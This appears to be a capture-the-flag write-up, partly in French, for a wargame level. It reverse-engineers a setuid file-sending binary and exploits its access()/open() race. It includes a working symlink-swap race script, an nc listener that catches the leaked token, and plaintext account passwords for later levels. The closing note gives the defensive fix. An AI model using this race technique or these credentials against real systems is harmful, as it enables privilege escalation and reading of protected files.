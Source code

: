 LEVEL 10

------------------------------------------------------------------------------------------------------------------------

    find . -user level09 2> /dev/null | grep -v proc
                 flag09
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag09 -o -user level09
    find . -maxdepth 1 -name "*string*" -print

* Recherches


    strace ./level10

        write(1, "./level10 file host\n\tsends file "..., 65./level10 file host
            sends file to host if you have access to it
        ) = 65


    strings ./level10

        %s file host                                            ---> utile
        sends file to host if you have access to it
        Connecting to %s:6969 ..                                ---> utile
        Unable to connect to host %s
        .*( )*.
        Unable to write banner to host %s
        Connected!
        Sending file ..
        Damn. Unable to open file
        Unable to read from file: %s
        wrote file!
        You don't have access to %s

    objdump -d level10 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/' | grep call

    804870e:	e8 0d fe ff ff       	call   8048520 <printf@plt>
    804871a:	e8 71 fe ff ff       	call   8048590 <exit@plt>
    8048749:	e8 92 fe ff ff       	call   80485e0 <access@plt>        --> Faille --> Access exploit - TOCTOU race (Time of Check to Time of Update)
    8048766:	e8 b5 fd ff ff       	call   8048520 <printf@plt>
    8048773:	e8 b8 fd ff ff       	call   8048530 <fflush@plt>
    804878f:	e8 5c fe ff ff       	call   80485f0 <socket@plt>
    80487cb:	e8 30 fe ff ff       	call   8048600 <inet_addr@plt>
    80487de:	e8 6d fd ff ff       	call   8048550 <htons@plt>
    8048805:	e8 06 fe ff ff       	call   8048610 <connect@plt>
    804881f:	e8 fc fc ff ff       	call   8048520 <printf@plt>
    804882b:	e8 60 fd ff ff       	call   8048590 <exit@plt>
    8048847:	e8 74 fd ff ff       	call   80485c0 <write@plt>          --> Ici que le token peut passer
    8048861:	e8 ba fc ff ff       	call   8048520 <printf@plt>
    804886d:	e8 1e fd ff ff       	call   8048590 <exit@plt>
    804887a:	e8 a1 fc ff ff       	call   8048520 <printf@plt>
    8048887:	e8 a4 fc ff ff       	call   8048530 <fflush@plt>
    804889b:	e8 00 fd ff ff       	call   80485a0 <open@plt>
    80488b2:	e8 a9 fc ff ff       	call   8048560 <puts@plt>
    80488be:	e8 cd fc ff ff       	call   8048590 <exit@plt>
    80488da:	e8 31 fc ff ff       	call   8048510 <read@plt>
    80488ea:	e8 e1 fc ff ff       	call   80485d0 <__errno_location@plt>
    80488f4:	e8 77 fc ff ff       	call   8048570 <strerror@plt>
    8048905:	e8 16 fc ff ff       	call   8048520 <printf@plt>
    8048911:	e8 7a fc ff ff       	call   8048590 <exit@plt>
    804892d:	e8 8e fc ff ff       	call   80485c0 <write@plt>          --> Ici que le token peut passer
    8048939:	e8 22 fc ff ff       	call   8048560 <puts@plt>
    8048950:	e8 cb fb ff ff       	call   8048520 <printf@plt>
    8048965:	e8 d6 fb ff ff       	call   8048540 <__stack_chk_fail@plt>

    1er constat : connect port 6969 de l'hote donné en string (second arg)

    fflush : fflush() is typically used for output stream only. Its purpose is to clear (or flush) the output buffer and move
    the buffered data to console (in case of stdout) or disk (in case of file output stream). Below is its syntax.
    
    
    echo Hello > /tmp/x
    ./level10 /tmp/x 127.0.0.1
        Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
    
    nc -l 6969
    ./level10 /tmp/x 127.0.0.1

        -> Fonctionne, maintenant faut bypass le token
    

    https://stackoverflow.com/questions/7925177/access-security-hole
    La faille d'access peut permettre d'envoyer le token bien qu'on ait pas les droits de lecture
    Surtout que le open est fait bien après le access dont gap de temps en théorie suffisant
    [race condition]

    Extrait du man : 

     The result of access() should not be used to make an actual access control decision,
     since its response, even if correct at the moment it is formed, may be outdated at
     the time you act on it.  access() results should only be used to pre-flight, such as
     when configuring user interface elements or for optimization purposes.  The actual
     access control decision should be made by attempting to execute the relevant system
     call while holding the applicable credentials, and properly handling any resulting
     errors; and this must be done even though access() may have predicted success.

     Additionally, set-user-ID and set-group-ID applications should restore the effective
     user or group ID, and perform actions directly rather than use access() to simulate
     access checks for the real user or group ID.


    On va avoir besoin d'un client qui se connecte en permanence :
    
    1. ln -s ~/token /tmp/x

    2. vi /tmp/connect.sh

        #!/bin/sh
        while [ 1 ]
        do
            ~/level10 /tmp/x 127.0.0.1
        done

        sh /tmp/connect.sh
    
    3. nc -lk 6969
    
    Le problème ici est que la race condition ne "s'ouvre" jamais car access ne fait pas d'erreur à proprement parlé, enfin ses prédictions d'access sont juste disons
    Donc il faut ajouter de quoi "tromper" access

    4. 
       #!/bin/sh
       while [ 1 ]
        do
            rm -rf /tmp/x
            touch /tmp/x
            # Race condition here
            ln -sf ~/token /tmp/x
        done

    su flag10 woupa2yuojeeaaed06riuj63c
    getflag
    su level11 feulo4b72j7edeahuete3no7c


* Solution

------------------------------------------------------------------------------------------------------------------------

NB : 
That is a TOCTOU race (Time of Check to Time of Update). A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls. Use faccessat() or fstat(). In general, open a file once, and use f*() functions on it (e.g: fchown(), ...).

NB : nc -lk =  Forces nc to stay listening for another connection after its current connection is completed


